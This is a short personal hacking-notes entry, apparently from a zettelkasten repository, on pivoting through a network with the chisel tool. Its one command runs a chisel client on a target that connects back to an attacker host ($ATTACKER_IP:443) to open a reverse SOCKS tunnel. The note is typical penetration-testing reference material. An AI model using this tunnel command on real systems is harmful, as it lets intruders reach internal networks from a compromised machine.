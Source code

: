 # tunneling through chisel - socks Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

` zet/20221003150602/README.md `

# Related

- [20221013222124](/zet/20221013222124/README.md) concept hub for tricks and tips
- [20221014185949](/zet/20221014185949/README.md) kb file named kb/hacking/commands/pivot-tunnel-through-chisel.md
- [20221003150604](/zet/20221003150604/README.md) tunneling through chisel - socks
- ~/kb/hacking/commands/pivot-tunnel-through-chisel.md

Tags:

    #command #hacking #pivot 
